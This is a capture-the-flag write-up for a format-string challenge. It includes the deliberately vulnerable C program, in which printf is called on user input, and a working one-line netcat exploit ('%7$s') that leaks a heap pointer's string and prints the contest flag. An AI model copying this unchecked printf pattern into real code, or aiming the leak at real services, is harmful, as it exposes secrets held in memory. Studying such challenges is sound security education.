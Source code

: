 # Lexington Informatics Tournament CTF 2021

## pwn/Printf

> Rythm 
> 
> I now realize gets isn’t all that great. But printf is so much cooler, it has tons of formatters, and definitely isn’t insecure!
> 
> `nc printf.litctf.live 1337`
>
> [printf_pwn.zip](printf_pwn.zip)


Tags: _pwn_ _x86-64_ _format-string_


## Summary

Leak flag using pointer in stack.


## Analysis

### Source Included

> Normally I do not _just_ use the source, but this was very trivial to test with a single bash command.

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    setbuf(stdout, 0x0);
    setbuf(stderr, 0x0);

    FILE *f = fopen("flag.txt", "r");
    if(f == NULL){
        puts("Something is wrong. Please contact Rythm.");
        exit(1);
    }

    char *buf = malloc(0x20);
    char *flag = malloc(0x20);
    fgets(flag, 0x20, f);

    puts("Maybe gets isn't secure? Well, at least no where seems to warn printf is insecure. Right?");

    scanf("%20s", buf);

    printf(buf);

    puts("\nGlad we have come to agreement!");

    free(buf);
    free(flag);

    return 0;
}
```

`printf(buf)` is the vulnerability (for fun, google that, and see what you can see).

`*buf` will be at `printf` parameter `6` (_why `6`?_;  well, read up on format-string exploitation and the Linux x86\_64 ABI.  The short of it is the first 6 (0-5) parameters to `printf` will be in registers, the 6th (counting from zero (the format string)) is on the stack.

`*flag` will be parameter `7` (on the stack).  Since it is a pointer to a string, the following will print the flag:

```bash
# echo '%7$s' | nc printf.lit-ctf-2021-2-codelab.kctf.cloud 1337
== proof-of-work: disabled ==
Maybe gets isn't secure? Well, at least no where seems to warn printf is insecure. Right?
flag{1s_4nyth1ng_s3cur3}

Glad we have come to agreement!
```
